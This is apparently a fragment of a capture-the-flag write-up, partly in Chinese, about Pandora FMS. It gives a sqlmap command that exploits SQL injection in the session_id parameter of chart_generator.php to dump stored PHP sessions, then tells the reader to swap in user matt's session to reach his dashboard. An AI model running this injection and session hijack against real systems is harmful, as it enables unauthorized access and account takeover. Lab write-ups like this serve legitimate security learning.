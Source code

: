 ```shell
sqlmap -u "http://localhost:9002/pandora_console/include/chart_generator.php?session_id=1" --batch -D pandora -T tsessions_php -C "data,id_session" --threads 10  --dump --where "data<>''"
```

![image-20250405163222865](./Pandora/image-20250405163222865.png)

登录时将session替换为matt的session即可登录到matt用户的后台

![image-20250405164316757](./Pandora/image-20250405164316757.png)
